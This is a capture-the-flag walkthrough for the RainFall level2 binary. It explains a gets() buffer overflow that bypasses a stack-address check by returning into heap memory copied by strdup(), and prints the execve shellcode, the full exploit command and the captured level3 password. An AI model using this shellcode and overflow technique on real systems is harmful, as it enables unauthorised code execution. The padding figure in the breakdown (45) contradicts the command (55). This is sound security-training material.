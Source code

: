 # Level2: Buffer Overflow with Heap Execution

## Challenge Overview

In level2, we encounter a program that reads user input into a buffer and then copies it to the heap using `strdup()`. The program includes a protection mechanism that checks if the return address has been changed to point to the stack, but doesn't prevent redirection to the heap.

## Source Code Analysis

The source code for this level reveals the vulnerability:

```c
#include <stdio.h>    // For fflush, gets, printf, puts
#include <stdlib.h>   // For _exit
#include <string.h>   // For strdup
#include <unistd.h>   // Alternative for _exit
#include <stdint.h>   // For uint32_t

void p(void);

int main(void)
{
  p();
  return 0;
}

void p(void)
{
  uint32_t return_address;
  char buffer[76];

  // Clear the stdout buffer
  fflush(stdout);

  // Read input into buffer (vulnerable to buffer overflow)
  gets(buffer);

  // Check if return address starts with 0xb0000000 (stack address range)
  // This is a protection against typical stack buffer overflow exploits
  if ((return_address & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", return_address);
    /* Process terminates here */
    _exit(1);
  }

  // Echo the input back to the user
  puts(buffer);

  // Duplicate the buffer (allocates heap memory)
  strdup(buffer);

  return;
}
```

Key observations:

1. The program uses `gets()`, which is vulnerable to buffer overflow
2. There's a protection check against stack-based exploits (addresses starting with 0xb)
3. The `strdup()` function copies our input to the heap

## The Vulnerability

This program has two key vulnerabilities:

1. **Buffer Overflow**: The use of `gets()` allows us to write beyond the 76-byte buffer
2. **Exploit Redirection**: Even though there's a check against stack-based exploits, we can redirect execution to the heap, which has addresses that typically start with 0x8

## Memory Layout and Protection Bypass

The protection check in this program targets stack addresses:

```c
if ((return_address & 0xb0000000) == 0xb0000000)
```

This checks if the highest 4 bits of the address are 0xb (1011 in binary). This is a common range for stack addresses in 32-bit Linux systems, but heap addresses typically start with 0x8, allowing us to bypass this check.

## Exploitation Strategy

Our approach leverages the heap memory allocated by `strdup()`:

1. Create a payload with a shellcode (a code that gives us a shell) at the beginning
2. Let `strdup()` copy our shellcode to the heap
3. Overflow the buffer to overwrite the return address with the heap address
4. When the function returns, execution jumps to our shellcode on the heap

## Finding the Heap Address

We used GDB to find where `strdup()` places our input:

```bash
level2@RainFall:~$ gdb -q ./level2
(gdb) disas p
# Looking at the disassembly to find the ret instruction
0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
0x0804853d <+105>:   leave
0x0804853e <+106>:   ret

(gdb) break *0x0804853e  # Set breakpoint at ret instruction
(gdb) run
# Input a test string
test

Breakpoint 1, 0x0804853e in p ()
(gdb) x/s $eax  # Examine the string at the address returned by strdup
0x804a008:       "test"
```

We discovered that `strdup()` consistently places our input at address `0x804a008` on the heap.

## Creating the Exploit

With this knowledge, we crafted an exploit with:

1. Shellcode to spawn a shell
2. Padding to fill the buffer
3. A value to overwrite the saved EBP
4. The heap address (0x804a008) to overwrite the return address

### Retrieving the Shellcode

To execute `/bin/sh`, we needed a shellcode that performs the `execve` system call. Instead of writing the shellcode ourselves, we retrieved a pre-written shellcode from [Shell-Storm](http://shell-storm.org/shellcode/), a well-known repository for shellcode.

We searched for "Linux/x86 - execve /bin/sh" on Shell-Storm and found [a compact 21-byte shellcode](https://shell-storm.org/shellcode/files/shellcode-575.html):

```assembly
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

This shellcode spawns a shell by invoking the `execve` system call with `/bin/sh` as the argument.

### Why We Need to Handle EBP

In level2, the saved EBP (Extended Base Pointer) is located between the buffer and the return address. This is different from level1, where the buffer is directly followed by the return address. We don't need to know what the EBP is for the purpose of this level, just that it occupies 4 bytes that must be accounted for in our exploit.

#### Key Difference Between Level1 and Level2

- **Level1**:

  ```assembly
  0x08048489 <+9>:     lea    0x10(%esp),%eax  # Buffer is allocated relative to ESP
  ```

  In level1, the buffer is allocated relative to ESP (Stack Pointer), and there is no saved EBP between the buffer and the return address.

- **Level2**:
  ```assembly
  0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax  # Buffer is allocated relative to EBP
  ```
  In level2, the buffer is allocated relative to EBP, and the saved EBP occupies 4 bytes between the buffer and the return address.

#### Exploit Adjustment

To craft the exploit for level2, we need to:

1. Fill the 76-byte buffer.
2. Overwrite the 4 bytes of saved EBP with any value (e.g., "BBBB").
3. Overwrite the return address with the heap address where our shellcode is stored. So that in runs our shellcode when the function returns.

## The Final Exploit

```bash
(python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A"*55 + "BBBB" + "\x08\xa0\x04\x08"'; cat) | ./level2
```

Breaking it down:

- Shellcode (21 bytes): `\x6a\x0b\x58...` - Spawns /bin/sh
- Padding (55 bytes): `"A"*45` - Fills the remainder of the 76-byte buffer
- EBP overwrite (4 bytes): `"BBBB"` - Arbitrary value for the saved EBP
- Return address (4 bytes): `\x08\xa0\x04\x08` - 0x804a008 in little-endian format. Check level1's walkthrough for more details about little-endian.
- `cat` - Keeps stdin open for shell interaction. Check level1's walkthrough for more details.


## Getting the Password

After running the exploit, we get a shell and can read the password:

```bash
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Moving to Next Level

With the password obtained, we can now move to level3:

```bash
level2@RainFall:~$ su level3
Password: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
level3@RainFall:~$
```

## Lessons Learned

1. **Stack Protection Isn't Enough**: Simple checks on return addresses can be bypassed by using alternative memory regions like the heap.

2. **Memory Layout Understanding is Crucial**: Knowing how memory is organized (stack vs heap) allows for creative exploitation techniques.

3. **Dangerous Functions**: `gets()` remains dangerous regardless of additional checks because it allows unlimited input.

4. **Stack Frame Integrity**: When redirecting execution, properly managing the stack frame (including the EBP) is important for reliable exploits.